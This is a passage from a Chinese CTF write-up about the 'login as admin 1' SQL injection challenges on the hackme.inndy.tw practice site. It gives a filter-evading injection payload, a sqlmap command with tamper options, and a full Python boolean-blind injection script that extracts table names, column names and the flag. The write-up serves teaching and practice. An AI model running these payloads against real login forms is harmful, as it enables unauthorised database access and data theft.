后面就按一般流程（表名，列名，数据）得到flag2。

### login as admin 1 和 1.2

还是sql注入，不过加大了难度，同样给了源码和两个flag。
主要改了safe_filter函数，里面把空格干掉了，但众所周知有很多方法（详情可看sqlmap自带的的tamper）可以代替sql语句里的空格比如改成换行(%0a)，然后输出没了，只有判断is_admin给第一个flag。。。这里我们换个注入点，用name来逃逸单引号。

PS：遇到比较麻烦的注入最好还是先本地测试一下注入的sql语句能不能用

`name=%5c&password=%0aor%0a1%0aunion%0aselect%0a1,1,1,1%0aorder%0aby%0a1%23`

flag2还是在数据库里，只能盲注。然而不想写脚本，上sqlmap整整

`python sqlmap.py -u "https://hackme.inndy.tw/login1/" --data "name=\&password=*" --prefix "or 2 " --suffix "#" --tamper space2mysqldash --dbms=mysql --level 5 --random-agent`

成了，不过sqlmap没识别出bool盲注只有时间盲注，虽然比较慢但可以去休息下......

等了半天终于注出来，这表名字段名全是32位md5...

最后还是自己写了：

```python
#!/usr/bin/env python2
import requests
url = 'https://hackme.inndy.tw/login1/'
#sql = 'select table_name from information_schema.tables where table_schema=database() limit 0,1'
#res=0bdb54c98123f5526ccaed982d2006a9
#sql = 'select column_name from information_schema.columns where table_name=0x3062646235346339383132336635353236636361656439383264323030366139 limit 1,1'
#res=4a391a11cfa831ca740cf8d00782f3a6
sql = 'select 4a391a11cfa831ca740cf8d00782f3a6 from 0bdb54c98123f5526ccaed982d2006a9'
#FLAG{W0W, You found the c ......
payload1 = 'or 1 and length(({0}))={1}#'
length = 0

while True:
    data = {'name':'\\', 'password':payload1.format(sql, length)}
    data['password'] = data['password'].replace(' ', '\n')
    r = requests.post(url, data=data)
    if 'Hi' in r.text:
        break
    length += 1

print length
payload2 = 'or 1 and ascii(mid(({0}),{1},1))<{2}#'
res = ''
#按速度来看二分法<位运算<遍历
for i in range(0, length):
    l = 0; h = 255;
    while l < h:
        m = (l + h) >> 1
        data = {'name':'\\', 'password':payload2.format(sql,i+1,m)}
        data['password'] = data['password'].replace(' ', '\n')
        r = requests.post(url, data=data)
        if 'Hi' in r.text:
            h = m
        else:
            l = m + 1
    res += chr(l - 1)
    print res
```
